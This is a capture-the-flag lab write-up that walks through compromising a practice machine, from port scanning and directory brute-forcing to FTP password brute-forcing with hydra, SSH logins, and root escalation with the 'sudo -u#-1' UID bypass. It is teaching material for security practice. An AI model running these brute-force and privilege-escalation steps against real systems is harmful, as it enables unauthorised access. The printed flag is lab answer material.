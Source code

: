 ## Target IP: 10.10.66.249

---

### Environment Variables

```bash
export IP=10.10.66.249
export LIP=10.6.24.56
```

---

### Nmap Scan

```bash
sudo nmap -sV -sC -T4 -O $IP -oN nmap_scan.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 21 | FTP | vsftpd 3.0.2 |
| 22 | SSH | OpenSSH 6.7p1 Debian 5 |
| 80 | HTTP | Apache httpd 2.4.10 (Debian) |

---

### Web Enumeration

Visited: `http://$IP`

→ Apache default page

→ Nothing in source

---

### Directory Brute Force

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
```

**Found:**

- `/assets` → Contains:
    - `rickrolled.mp4` (thanks)
    - `style.css` → Comment at bottom:

```
Nice to see someone checking the stylesheets.
Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

---

### Redirect Discovery (BurpSuite)

Visited `/sup3r_s3cr3t_fl4g.php`

→ Redirects to a Rickroll, but in the video:

> "burp you're in the wrong place."
> 

Used **BurpSuite** to intercept

**Found:**

```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
```

---

### Hidden Directory

Visited: `/WExYY2Cv-qU`

→ Contains `hot_babe.png`

```bash
wget http://$IP/WExYY2Cv-qU/hot_babe.png
```

**Used:**

```bash
strings hot_babe.png
```

→ Found:

```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
...
```

---

### FTP Brute Force

```bash
hydra -l ftpuser -P passwords.txt $IP ftp
```

→ Password: `[REDACTED]`

---

### FTP Login

```bash
ftp $IP
# Username: ftpuser
# Password: [REDACTED]
```

→ Found: `Eli's_Creds.txt`

```bash
get Eli's_Creds.txt
```

→ Garbled output (Brainfuck)

---

### Decode Brainfuck

Tried **CyberChef**, failed

→ Checked writeup

→ It’s **Brainfuck** encoded

Decoded result:

```
User: eli
Password: [REDACTED]
```

---

### SSH into Eli

```bash
ssh eli@$IP
# Password: [REDACTED]
```

→ On login:

**1 New Message**

```
Message from Root to Gwendoline:
Check our leet s3cr3t hiding place.
```

---

### Hidden Directory Discovery

```bash
find / -type d -name s3cr3t 2>/dev/null
# → /usr/games/s3cr3t
```

```bash
ls -la /usr/games/s3cr3t
# → .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

```bash
cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

→ Gwendoline’s password: `[REDACTED]`

---

### SSH into Gwendoline

```bash
su gwendoline
# Password: [REDACTED]
```

```bash
cat user.txt
# → THM{[REDACTED]}
```

---

### Privilege Escalation

```bash
sudo -l
# → (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

---

### Exploiting Bash Bug with `vi`

**Explanation:**

The `!root` restriction should prevent you from escalating.

But there's a known bug where `sudo -u#-1` allows you to specify UID -1 (which resolves to `0` / root).

You’re not allowed to sudo as root directly due to the `!root`, but this tricks `sudo` by using the UID.

**Exploit:**

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
:!whoami
# → root
:!bash
```

→ You're now root.

---

### Root Flag

```bash
cd /root
cat root.txt
# → THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
